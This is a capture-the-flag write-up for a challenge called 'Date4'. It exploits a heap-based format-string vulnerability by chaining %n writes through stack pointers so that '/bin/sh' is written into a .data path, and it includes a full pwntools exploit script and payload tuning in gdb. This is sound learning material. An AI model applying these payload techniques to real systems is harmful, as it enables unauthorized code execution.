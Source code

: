 # Date4

```
Description
Format strings are easy to exploit right?

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So only nx is enabled and its an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see we have again a format string vuln, but now its not on the stack but on the heap. We can also see that `date_path` is now in the `.data` section.
So now we cant write `/bin/sh` with the format string to `date_path` as we did in `date2`. We cant find our offset, but the printf is still printing values from the stack.

So what we need to do is similar to [this](https://anee.me/format-string-exploits-when-buffer-is-not-on-the-stack-f7c83e1a6781). So lets find an address pointing to another address on the stack, 
with that we first write the `date_path` address to the first stack address, then with the second write we write `/bin/sh`. 
We set a breakpoint after printf and check the stack:

![img](images/gdb.jpg)

So we can see the first value is pointing to an other address on the stack. The blue square is pointing to our heap. We can find the offset of the first value at the 6th position with gdb(run the program in gdb with the breakpoint and send `%6$p` and check the stack) 
As we can read [here](https://cor.team/posts/Zh3r0-CTF-V2---All-Pwnable-Writeups):

```
First, when something of the %offset$specifier notation is encountered, the value is cached in args_value in printf_positional so it will not reference the stack upon the next encounter.
```

So we cant use positional arguments `%offset$specifier` at the first write because of the caching issue. What we can do is like sending `x` offset times till we are at the position we want to be.
So lets create our script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%30x"
payload += b"%n"

write("payload", payload)

io.interactive()
```

We run this and it will create a payload file in the same directory, lets use it in gdb. As we can see:

```py
payload = b"%x" * 4 # means %x %x %x %x equals %4$specifier
payload += b"%30x" # 5th offset
payload += b"%n" # here we are at the 6th offset as we want
```

So lets run in gdb(`r < payload`), this time we set a breakpoint before and after printf and check the stack
We hit our first breakpoint, lets check the stack:

![img](images/gdb1.jpg)

Nothing changed, lets continue:

![img](images/gdb2.jpg)

We see its changed to 0x35. So lets calculate the amount of bytes we need to write. `date_path` is at `0x404080`. Pie is disabled so no worries for changes. 
We can see that if we write 30 bytes, we get 0x35. So lets calculate in python:


![img](images/py.jpg)

We substract 30 from 53 because thats the padding we used. Then we substract the value from the address we want to write. So lets change our script:

```py
payload = b"%x" * 4
payload += b"%4210793x"
payload += b"%n"
```

Lets run it and use it in gdb again(same breakpoints)
Continue after the first breakpoint an check the stack:

![img](images/gdb3.jpg)

So we succesfully wrote the `date_path` address to that location, so now with our second write we can use positional arguments.
So what we want to write now is `/bin/sh` to `date_path`. But in `date_path` there is already `/usr/bin/` so we can just overwrite `date` with `/sh`(`/usr/bin//sh` doesnt matter and will run as normally, try locally in your terminal). Lets check the address we want to overwrite.
We can set values in gdb:

![img](images/gdb4.jpg)

We can find the offset of the second address that we changed manually. Its the `38th` position.
So lets change our payload again. We want to write `0x0068732f` to `0x404089`. We also need to change our first payload because we wrote `0x404080`(just add `9`). 

So if we change it to:

```py
payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%30x%38$n"
```

And run it again and check what we wrote:

![img](images/gdb5.jpg)

So we can calculate it again, like we did before:

![img](images/py1.jpg)

So changed `30` to `2634406` and run again:

![img](images/gdb6.jpg)

And we can see we succesfully wrote what we want.
If we run it outside of gdb, we can see it wont work and differs slightly:

![img](images/error.jpg)

So lets debug with our script in gdb:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB: 
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


gdbscript = '''
b *main+134
b *main+139
'''.format(**locals())

exe = './vuln'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'critical'

io = start()

payload = b"%x" * 4
payload += b"%4210802x"
payload += b"%n"
payload += b"%2634406x%38$n"

io.sendlineafter(b'date?\n', payload)

io.interactive()
```

`python3 exploit.py GDB`

It will open an extra tab with gdb. Lets continue 2 times till we hit the second breakpoint, and check the stack:

![img](images/gdb7.jpg)

We can see here, its not the address we want. Its `0xa` at the end and we want `0x9` so 1 number too much. So we substract 1 from `4210802` in our script, and run it again:

![img](images/gdb7.jpg)

We can see everything is correct now, so lets continue:

![img](images/local.jpg)

And we got our shell locally, lets try to run remotely:

![img](images/flag.jpg)

and we got our shell and flag. Really cool chall, learnt some new stuff!
